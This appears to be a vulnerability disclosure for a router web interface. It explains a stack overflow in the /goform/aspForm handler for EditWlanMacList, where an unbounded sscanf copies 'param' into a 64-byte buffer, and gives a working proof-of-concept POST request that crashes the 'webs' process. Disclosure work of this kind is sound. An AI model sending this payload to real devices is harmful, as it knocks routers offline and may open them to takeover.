 ## Vulnerability
In route`/goform/aspForm`, the value of the key `CMD` is `EditWlanMacList`, the program will go into the following handling function.



![](assets/Pasted_image_20230606204034.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v27` on the stack. In this function, the length of `param` is limited to 511 Bytes，but `v27` only have 64 Byte. Also, the parameter `%s` of `sscanf` didn't limit the copy length.

![](assets/Pasted_image_20230606164959.png)

## PoC
```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 173
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp?refresh=yes?refreshFlag=Tue%20Jun%2006%202023%2016:39:29%20GMT+0800%20(China%20Standard%20Time)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditWlanMacList&GO=wan_new.asp&param=1;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

## Result

the process `webs` restart

![image-20230610124122224](assets/image-20230610124122224.png)
